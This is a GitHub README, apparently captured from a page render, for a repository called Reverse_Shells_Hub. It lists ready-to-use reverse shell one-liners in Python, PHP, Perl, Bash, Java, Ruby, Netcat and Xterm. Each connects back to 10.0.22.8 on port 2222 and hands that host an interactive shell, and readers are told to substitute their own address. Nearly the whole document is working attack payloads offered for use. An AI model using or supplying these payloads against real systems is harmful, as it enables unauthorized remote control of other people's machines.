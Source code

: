 # Reverse_Shells_Hub - XORPIOv

![](https://github.com/XORPIOv/lib/blob/main/20240426_005902.jpg)

**Reverse Shells Hub is a repository containg reverse shells for most used languages**

![](https://github.com/XORPIOv/lib/blob/main/coding%20languages.png)


Download all the Reverse Shells on Linux by the command  **git clone https://github.com/XORPIOv/reverse_shells.git**
OR download as **ZIP FILE** for Windows

## Shells
Find the **latest versions of all the scripts in [the releases page](https://github.com/XORPIOv/reverse_shells.git)**.
## Python
```bash
# XORPIOv PYTHON SHELL | A Reverse Shell in PYTHON.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.22.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Php
```bash
// XORPIOv PHP SHELL | A Reverse Shell in PHP.
// Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
//
// Description
// ------------
// Change IP Address && PORT to local IP && PORT.

php -r '$sock=fsockopen("10.0.22.8",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl
```bash
# XORPIOv PERL SHELL | A Reverse Shell in PERL.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

perl -e 'use Socket;$i="10.0.22.8";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Bash
```bash
# XORPIOv BASH SHELL | A Reverse Shell in BASH.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

bash -i >& /dev/tcp/10.0.22.8/2222 0>&1
```
## Java
```bash
/*

XORPIOv JAVA SHELL | A Reverse Shell in JAVA.
Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv

Description
------------
This shell / script will allow you to make an outbound connection to local IP Address and port.
Change IP Address && PORT to local IP && PORT.

*/

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.22.8/2222;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ruby
```bash
# XORPIOv RUBY SHELL | A Reverse Shell in RUBY.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

ruby -rsocket -e'f=TCPSocket.open("10.0.22.8",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```bash
# XORPIOv NETCAT SHELL | A Reverse Shell in NETCAT.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

nc -e /bin/sh 10.0.22.8 2222
```
## Xterm
```bash
# XORPIOv XTERM SHELL | A Reverse Shell in XTERM.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

xterm -display 10.0.22.8:2222
```

**ReverseShellsHub** will always be updated
